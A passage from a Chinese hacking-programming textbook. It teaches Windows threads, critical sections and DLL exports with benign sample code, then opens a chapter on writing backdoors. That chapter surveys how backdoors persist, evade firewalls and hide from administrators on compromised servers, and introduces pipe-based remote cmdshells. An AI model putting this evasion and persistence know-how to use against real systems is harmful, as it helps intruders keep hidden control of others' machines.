DWORD WINAPI Thread(LPVOID lpParam)
{
    // 线程函数代码
}
```

lpParameter 参数指向传递给线程函数的参数。  
dwCreationFlags 参数表示创建线程后线程的运行状态；`CREATE_SUSPENDED` 表示挂起当前创建的线程；0 表示立即执行当前创建的线程。  
lpThreadId 参数用于返回新创建线程的 ID。  
若函数调用成功则返回新线程的句柄，否则返回 `NULL`。

调用完这个函数后我们可以继续调用 `WaitForSingleObject` 函数等待所创建线程的运行结束，其函数原型如下：

```c
DWORD WaitForSingleObject(
    HANDLE hHandle,
    DWORD dwMilliseconds
);
```

hHandle 参数指向要等待的对象句柄，这个句柄由 `CreateThread` 函数返回。  
dwMilliseconds 参数指向等待超时的毫秒数，若为 `INFINITE`，则没有设置超时，一直等待，直到线程函数返回。  
如果返回值为 `WAIT_OBJECT_0`，表明指定的对象已经处于信号状态了；如果返回值为 `WAIT_TIMEOUT`，表明在超时范围内，期望的事件没有发生。若调用失败，则返回 `WAIT_FAILED`。

具体实现代码如下：

```c
DWORD ThreadId;
HANDLE hThread = CreateThread(NULL, NULL, Thread, NULL, 0, &ThreadId);
if(hThread != NULL)
    WaitForSingleObject(hThread, INFINITE);
```

一般来说创建一个线程是不能增加程序的执行效率的，所以就要创建多个线程。但是使用多线程之后又会出现新的问题。多个线程同时运行的时候可能它们都调用同一个线程函数，那么假如多个线程同时对同一个内存地址进行写入，由于 CPU 时间调度上的问题，写入的数据会被多次地覆盖而对最终结果造成影响，所以就要使线程同步。也就是实现当有一个线程在对内存地址进行操作的时候，其他线程都不可以对这个内存地址进行操作，直到那个线程操作完内存地址，其他线程中的一个才能对内存地址再次进行操作，而此时其他线程又处于等待状态。

实现线程同步的方法有很多，我们这里使用临界区对象来实现线程同步。

### 什么是临界区对象？

> 临界区对象是定义在数据段中的一个 **CRITICAL_SECTION** 结构，Windows 内部使用整个结构来记录一些信息，以确保同一时间只有一个线程访问该数据段中的数据。

在使用临界区对象之前，首先要定义全局 **CRITICAL_SECTION** 结构变量，然后必须在调用 `CreateThread` 函数前先调用 `InitializeCriticalSection` 函数初始化临界区对象。

在线程函数中要对保护的数据进行操作前，必须先调用 `EnterCriticalSection` 函数申请进入临界区。由于在同一时间内，只允许一个线程进入临界区，所以在申请的时候如果有一个线程已经进入临界区了，那么 `EnterCriticalSection` 函数会一直等待直到那个线程执行完临界区的代码。当执行完临界区的代码后，需要调用 `LeaveCriticalSection` 函数把临界区交换给系统。

当最后不需要使用临界区时，还必须调用 `DeleteCriticalSection` 函数删除临界区对象。`InitializeCriticalSection`、`EnterCriticalSection`、`LeaveCriticalSection` 和 `DeleteCriticalSection` 函数的参数是相同的，并且只有一个，它是指向 `CRITICAL_SECTION` 结构的一个指针，就是前面讲到的要定义的全局变量。

下面以一个多线程写文件的例子来说明多线程和线程同步的具体编程（源码在光盘“第一章\Windows系统编程基础\Thread”下）：

```c
#include <Windows.h>
#include <stdio.h>

HANDLE hFile;
// 定义临界区对象
CRITICAL_SECTION cs;

// 写文件线程函数
DWORD WINAPI Thread(LPVOID lpParam)
{
    // 得到是哪个线程
    int n = (int)lpParam;
    DWORD dwWrite;
    for (int i=0; i<10000; i++)
    {
        // 进入临界区
        EnterCriticalSection(&cs);

        char Data[512] = "...";
        // 写入文件
        WriteFile(hFile, &Data, strlen(Data), &dwWrite, NULL);

        // 出临界区
        LeaveCriticalSection(&cs);
    }

    printf("第%d号线程结束运行\n", n);
    return 0;
}

int main(int argc, char* argv[])
```

```cpp
// 创建文件
hFile = CreateFile("c:\\hack.txt", GENERIC_WRITE, 0,
    NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
if(hFile == INVALID_HANDLE_VALUE)
{
    printf("CreateFile Error\n");
    return 0;
}

DWORD ThreadId;
HANDLE hThread[5];

// 初始化临界区对象
InitializeCriticalSection(&cs);

// 创建5个线程
for(int i = 0; i < 5; i++)
{
    hThread[i] = CreateThread(NULL, NULL, Thread, LPVOID(i + 1), 0, &ThreadId);
    printf("第%d号线程创建成功\n", i + 1);
}

// 等待五个线程运行结束
WaitForMultipleObjects(5, hThread, TRUE, INFINITE);

// 删除临界区对象
DeleteCriticalSection(&cs);

// 关闭文件句柄
CloseHandle(hFile);
return 0;
```

上面例子的执行效果如图17所示。



图17

到此，一个漂亮的多线程写入文件的程序就完成了。

#### 1.3.5 动态链接库编程

> **编程训练营**
>
> **什么是动态链接库？**
>
> 动态链接库（Dynamic Link Library，缩写为 DLL）是一个可以被其它应用程序共享的程序模块，其中封装了一些可以被共享的例程和资源。动态链接库文件的扩展名一般是 DLL，也有可能是 drv、sys 和 fon，它和可执行文件（exe）非常类似。区别在于 DLL 中虽然包含了可执行代码却不能单独执行，它只能作为一个导出函数，由其他 exe 程序调用。这种调用是安全的，因为应用程序并不知道这些资源的细节，并且一个 DLL 中的资源可以被多个程序所共享，这样可以缩小应用程序的执行代码。

DLL 编程在黑客程序编写中也占到了非常重要的地位。为了做到无进程，现在大部分木马、后门都运用了远程线程插入技术（这部分内容会在第三章中具体讲解），此技术中就用到了 DLL 文件，而且有的古老的键盘记录软件也用到了 DLL 文件。

下面我们就来学习 DLL 文件编程。要编写 DLL，首先要用 VC++6.0 建立一个动态链接库工程，其具体步骤和建立控制台工程差不多。首先点击“File（文件）-> New（新建）”，在打开的窗口中选择“Projects（工程）”选项卡下的“Win32 Dynamic-Link Library”，如图18所示。



图18

然后输入“Project name（工程名）”和“Location（保存路径）”后点“OK”，在弹出的窗口中选择“A simple DLL project”，如图19所示。最后点“Finish（完成）”即可。



图19

我们打开 cpp 文件会看到，VC++6.0 已经为我们添加了一个 DLLMain 函数了。其实 DLLMain 函数和 main 函数是比较相似的，都是入口点函数，但是它们又有所不同。当 DLL 文件被装载、卸载、进程中有线程创建和结束线程时都会调用 DLLMain 函数，所以为了更好地管理这些调用，我们可以对 DLLMain 函数进行如下优化，代码如下：

```c
BOOL APIENTRY DllMain(HANDLE hModule,
                      DWORD ul_reason_for_call,
                      LPVOID lpReserved)
{
    switch(ul_reason_for_call)
    {
    // DLL 被加载到内存时
    case DLL_PROCESS_ATTACH:
        {
            // …… 其他功能代码
            break;
        }

    // 进程中有线程创建时
    case DLL_THREAD_ATTACH:
        {
            // …… 其他功能代码
            break;
        }

    // 线程正常退出时
    case DLL_THREAD_DETACH:
        {
            // …… 其他功能代码
            break;
        }

    // 动态链接库被卸载时
    case DLL_PROCESS_DETACH:
        {
            // …… 其他功能代码
            break;
        }

    default:
        break;
    }
    return TRUE;
}
```

这样处理后就便于在不同时段执行不同的代码了，比如我们可以在 DLL_PROCESS_ATTACH 加入相应的代码，而在 DLL_PROCESS_DETACH 处添加 DLL 将要被卸载前的清场代码。

DLL 还有一个亮点就是可以把一个函数定义成导出函数，这样这个函数就能被其它程序调用。

> **什么是 DLL 的导出函数？**
>
> 导出函数是相对于内部函数而言的，内部函数是在 DLL 中定义的，并且只能在此 DLL 中才能被调用的函数；而导出函数不仅可以在此 DLL 中被调用，还能被其它应用程序所调用。

那么我们先来写一个简单的导出函数，实现弹出一个对话框。这个函数写在 DLLMain 函数上面或下面都没关系（此工程在光盘“第一章\Windows 系统编程基础\Export”下），函数如下：

```c
int MyMessageBox(char *lpText, char *lpCaption)
{
    MessageBox(NULL, lpText, lpCaption, 0);
    return 0;
}
```

下面我们把它定义为导出函数，选择“File（文件）-> New（新建）”，在打开的窗口中选择“Files（文件）”选项卡下的“Text File”，在 File 中输入 Export.def，点击 OK，如图20所示。



图20

这样就建立了一个扩展名为 def 的文件，在这个文件中添加如下内容：

```text
EXPORTS
    MyMessageBox
```

其中“MyMessageBox”就是我们刚才定义的函数。这就说明此 DLL 向外导出 MyMessageBox 这个函数。最后我们编译，这样就生成了一个导出函数为 MyMessageBox 的 DLL 文件。那么下面我们要实现对 DLL 中的导出函数的调用，这里仍旧以这个 DLL 函数为例来加以说明。

调用导出函数前必须先装载 DLL 文件，要完成这步操作有两种方法：静态装载 DLL 文件和动态装载 DLL 文件。所谓静态装载就是程序启动时由载入器装载 DLL 文件；而动态装载则是在程序运行期间要用到某个 DLL 中的导出函数时，装载这个 DLL，当导出函数执行完成后，释放这个 DLL。与静态装载 DLL 文件相比，由于它在调用完函数后会释放 DLL，不会像静态装载那样把 DLL 镜像一直留在内存中，所以比较节省虚拟内存。我们这里只向大家介绍动态装载 DLL 文件。

调用 DLL 中导出函数的具体步骤如图21所示。

其中图中的第一步就是动态装载 DLL 文件的过程，这个过程相当简单，只调用了 LoadLibrary 这个函数。这个函数用于获取 DLL 的模块句柄，若 DLL 不在内存中，则 Windows 将向内存中载入 DLL，其原型如下：

```c
HMODULE LoadLibrary(LPCSTR lpszLibraryName);
```

这个函数只有一个参数 lpszLibraryName，它指向了 DLL 文件名的字符串指针。假如 DLL 文件在系统目录下或者和调用这个 DLL 的应用程序同目录，那么不用包含路径，否则要包含完整路径的文件名。



图21

若函数调用成功则返回载入的 DLL 的模块句柄，否则返回 NULL。本实例中的调用具体如下：

```c
// 装载DLL文件
HMODULE hModule = LoadLibrary("Export.dll");
if(hModule == NULL)
{
    printf("LoadLibrary error!\n");
    return 0;
}
```

在这个函数调用成功后，DLL 就被装载进入了内存，返回的句柄指向 DLL 装载入虚拟内存的地址。下面我们就可以继续调用 GetProcAddress 函数得到导出函数的地址，其函数原型如下：

```c
FARPROC GetProcAddress(
    HMODULE hModule,
    LPCSTR  lpProcName
);
```

hModule 参数指向 DLL 模块句柄，由 LoadLibrary 函数返回。lpProcName 参数指向导出函数名称的字符串。如果函数调用成功，返回值是 DLL 中的导出函数地址，否则返回值是 NULL。这个函数的具体调用如下：

```c
// 定义函数原型
typedef int (*MyMessageBox)(char *lpText, char *lpCaption);

int main(int argc, char* argv[])
{
    // 装载dll
    // 得到MyMessageBox地址
    MyMessageBox NewMessageBox = (MyMessageBox)GetProcAddress(hModule, "MyMessageBox");
    if(NewMessageBox == NULL)
    {
        printf("GetProcAddress error\n");
        return 0;
    }

    ...
    return 0;
}
```

在上面代码中 `typedef int (*MyMessageBox)(char *lpText, char *lpCaption);` 这句是不可少的。由于是在 DLL 中的导出函数，所以必须要声明函数原型，不然系统不知道函数具体的参数和返回值。

得到函数地址后，下面我们就可以调用这个函数了。具体代码如下：

```c
NewMessageBox("by 认真的雪", "http://www.yeahack.cn");
```

当然也不能忘了最后一步，我们必须调用 `FreeLibrary` 函数卸载装载在内存中的 DLL。这个函数只有一个参数，这个参数指向了 DLL 的句柄，它由 `LoadLibrary` 函数返回。

本实例具体代码在光盘“第一章\Windows 系统编程基础\import”下，执行效果如图22所示。



图22

## 基本后门的编写

- 后门概述
- 简单 cmdshell 的实现
- 开启远程终端的实现
- 文件查找
- 重启、关机、注销
- 实现 HTTP 下载文件
- 实现 cmdshell 和各功能的切换
- 自启动功能的实现

## 第三章 基本后门的编写

### 2.1 后门概述

后门，顾名思义就像是房子在屋后开的门，方便进出。但是电脑上的后门可不是为了方便用户进出，而是为了方便黑客进出。对于玩黑客的兄弟来说，后门是一个非常有用的工具。在控制一台服务器后，往往都要给其装上一个或多个后门，以保证以后对这台服务器的控制。

### 2.1 后门的发展历史

任何事物都是要发展的，后门当然也不例外。后门的发展主要体现在功能和隐蔽性这两方面。

##### 功能上的发展

记得最原始的后门只有一个 cmdshell 功能，后来随着广大黑友对后门要求的不断提高，其功能也渐渐地强大了起来。比如很老的一款后门 winshell，现在可能有些兄弟还在使用，但它增加了许多很实用的功能，比如列举进程、结束进程等。在 winshell 之后，后门的功能就越来越完善了，开远程终端、克隆用户等功能都出现了。现在有些后门还增加了替换桌面功能，虽然这没什么用，但至少可以说明后门在功能上的发展已经达到顶峰！

##### 隐蔽性的发展

在后门功能发展的同时，黑友们不得不考虑的是后门的生存能力。假如一个后门的生存能力不强，就算功能再强大也是徒劳，被管理员三下五除二就删除了，那还搞什么搞。所以后门一定要隐蔽，不能让管理员一眼就看出自己的服务器中了后门。

后门隐蔽性的发展相比其功能的发展更是经历了艰难而漫长的过程。隐蔽性分为自启动的隐蔽性、连接上的隐蔽性和进程上的隐蔽性。

在自启动方面，最开始的时候是利用注册表中的 RUN 项来实现的，但是这种启动方式在“系统配置实用程序”中会轻易地被发现，并且在没有用户登录的状况下是不会启动的。所以后来又出现了注册成服务启动，就算在没有用户登录的状况下也能启动，而且隐蔽性提高了不少。随着新技术的不断出现，又相继出现了 ActiveX 启动、SVChost.exe 加载启动和感染系统文件启动（黑客之门就是用这种方法启动的）。

还值得一提的是现在非常流行的 API HOOK 技术的应用，使得在用户模式下实现了无进程、无启动项、无文件（当然不是真的没有了，只是一些对上述进行操作的 Native API 被 HOOK 了）。

在连接上，刚开始是正向连接后门，后门监听一个端口，远程主机对其进行连接。这种后门的隐蔽性相当差，只要查看端口和程序的关联就能轻易地发现后门。假如服务器装了防火墙，多半就会连接失败。在这样的状况下，反向连接后门又出现了，反连后门能够突破一些防火墙，但是遇到一些对进程进行过滤的防火墙，这种后门也就无能为力了。于是乎远程线程技术得到了很好的应用，通过远程插入线程来实现对进程过滤的防火墙的突破。当然还有其他隐藏的方法，比如利用原始套接字的嗅探后门（随意门就是其中一个）。

当然 API HOOK 也在这里得到了应用，实现了无端口。在进程方面，应用得最多的也就是远程线程技术，把后门写成一个 DLL，通过远程线程函数注入其他进程，实现了无进程。当然还有更厉害的，用 API HOOK 来实现无进程。

### 2.2 简单 cmdshell 的实现

- 前置知识：C/C++ 基础、Winsock 编程基础
- 难度：中等
- 编译环境：VC++6.0
- 测试环境：Windows XP

> **什么是 cmdshell？**

要理解 CmdShell，我们可以把这个单词分解成 cmd 和 shell 两个单词。cmd 就是系统中的 cmd 窗口，shell 在英语中是“壳”的意思。那么 cmdshell 就可以理解成是由被入侵系统返回的一个类似于 cmd 窗口的、可以远程执行命令的模块。

我们首先来看一下 telnet 连接上 cmdshell 之后的效果图，如图1所示。



图1

我们可以在 cmdshell 中执行所有的 cmd 命令，这样就可以把它简单地理解成是一个通过本地的 telnet 来输入命令，而在远程主机的 cmd 上执行，然后再返回命令执行结果的过程。这样我们可以把整个后门进行如下分解，如图2所示。



图2

从图2中可以看出 cmdshell 有 1 和 2 两个不同的通信过程，如果要实现 cmdshell，我们就必须解决这两个通信问题。首先 1 过程是后门和 cmd 之间的通信，通俗地说也就是进程间的通信，我们可以用管道通信技术来实现这个过程；2 过程是跨越计算机的网络通信，我们可以用 Winsock 类库来实现。其中 Winsock 通信第一章具体讲述过了，相信大家已经很熟练了。下面我们就来学习管道通信技术。

#### 2.2.1 管道通信技术

> **知识加油站**
>
> 什么是管道？
>
> 管道（pipe）是一种进程间，确切地说是线程间的通信方法。管道，正如这个名字所表示的，是一个有两个端口的对象。进程可以从这个对象的一个端口写入信息，并从这个对象的另一个端口读取信息。管道其实也是一种共享内存，但是这种共享内存更加规整，而且有类似于队列的数据结构，不像内存映射文件那样仅仅是共享内存。

管道有两种类型：匿名管道和命名管道。我们这里只需要关注匿名管道，匿名管道是单向的，也就是说数据只能从写句柄写入，并且只能从读句柄读出，具体如图3所示。



匿名管道数据的传递方向只能是图中箭头所指的方向。那么具体怎么来创建匿名管道呢？我们可以用 `CreatePipe` 函数来实现，这个函数用于创建一个匿名的管道，并返回管道的读、写句柄，其原型如下：

```c
BOOL CreatePipe(
    PHANDLE hReadPipe,
    PHANDLE hWritePipe,
    LPSECURITY_ATTRIBUTES lpPipeAttributes,
    DWORD nSize
);
```

`hReadPipe` 参数指向一个管道的读句柄。

`hWritePipe` 参数指向一个管道的写句柄。

`lpPipeAttributes` 参数指向一个 `SECURITY_ATTRIBUTES` 结构，用于确定返回的句柄是否可以被子进程继承。这个结构具体如下：

```c
typedef struct _SECURITY_ATTRIBUTES {
    DWORD  nLength;              // 结构体的大小，用 sizeof 取得
    LPVOID lpSecurityDescriptor; // 安全描述符
    BOOL   bInheritHandle;       // 安全描述的对象能否被新创建的进程继承
} SECURITY_ATTRIBUTES;
```

`nSize` 参数指定了管道缓冲区的大小，如果为 0，采用缺省的缓冲区大小。

管道创建成功返回 `TRUE`，并返回管道读、写句柄，否则返回 `FALSE`。

那么怎样才能利用管道读句柄读取管道中的数据，以及利用管道写句柄把数据写入管道呢？我们可以利用 `ReadFile` 和 `WriteFile` 函数来读取管道中的信息和把信息写入管道中。

我们都知道 `ReadFile` 和 `WriteFile` 函数读取和写入文件时的第一个参数是文件句柄，那么对管道操作时，只需要把文件句柄改成管道句柄就可以了。

`ReadFile` 函数用管道读句柄，`WriteFile` 函数用管道写句柄，其他操作和文件读写一样。

到这里为止我们已经对管道有了一个初步的了解，那么怎样才能把管道和 cmd 进程关联起来，以及把进程间的信息通过管道来传输呢？这些我们会在正向连接后门中具体讲解。

#### 2.2.2 正向连接后门编程

所谓正向连接后门，就是在被控制的计算机上监听一个端口，等待连接。当有连接后，就启动后门功能，这也是最古老的后门。这种后门是相当被动的，一旦有防火墙，此后门就可能连接不上，你的连接会被防火墙拦截。但是学习正向连接后门是学习其他后门的基础，所以大家还是得认认真真地学。

学了管道通信之后，下面我们来看看正向连接后门的一般实现步骤（如图4所示）。

